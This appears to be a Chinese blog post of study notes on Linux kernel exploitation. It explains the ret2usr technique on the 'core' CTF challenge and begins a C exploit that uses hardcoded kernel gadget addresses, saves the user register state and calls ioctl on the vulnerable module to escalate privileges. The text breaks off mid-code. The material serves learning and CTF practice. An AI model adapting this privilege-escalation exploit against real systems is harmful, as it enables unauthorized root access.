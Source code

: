 ```yaml
---
title: Kernel Pwn 入门 (2)
date: 2023-02-28 22:28:14
categories:
- 学习笔记
- kernel pwn 系列
---
```

# ret2usr

在上一篇文章中，我们借助一道kernel pwn的入门题——core完成了kernel ROP的学习，本系列按照[与上一篇文章相同的资料](https://arttnba3.cn/2021/03/03/NOTE-0X03-LINUX-KERNEL-PWN-PART-II/#%E4%BE%8B%E9%A2%98%EF%BC%9A%E5%BC%BA%E7%BD%91%E6%9D%AF2018-core-1)的顺序继续学习与复现。本篇文章学习的漏洞技术为：ret2usr

仍然使用上一篇文章的例题，没有开启SMAP/SMEP，有从内核直接执行用户空间代码的可能性。我们已经知道在本题中能够很容易地获取到两个关键函数的地址，我们在用户态写一个调用提权函数的代码片段，但是不在用户态执行，而是将其插入到ROP链中由内核来执行，与上一题的效果是相同的。只需要对上一题的代码进行一些部分修改即可。

exp:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/ioctl.h>

unsigned long long commit_creds = 0, prepare_kernel_cred = 0;	// address of to key function
const unsigned long long commit_creds_base = 0xFFFFFFFF8109C8E0;

const unsigned long long swapgs_popfq_ret = 0xffffffff81a012da;
const unsigned long long iretq = 0xFFFFFFFF81A00987;

int fd = 0;	// file pointer of process 'core'

void saveStatus();
void get_function_address();
void core_read(char* buf);
void change_off(int off);
void core_copy_func(unsigned long long nbytes);
void print_binary(char* buf, int length);
void rise_cred();
void shell();

size_t user_cs, user_ss, user_rflags, user_sp;
void saveStatus(){
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

void core_read(char* buf){
	ioctl(fd, 0x6677889B, buf);
}

void change_off(int off){
	ioctl(fd, 0x6677889C, off);
```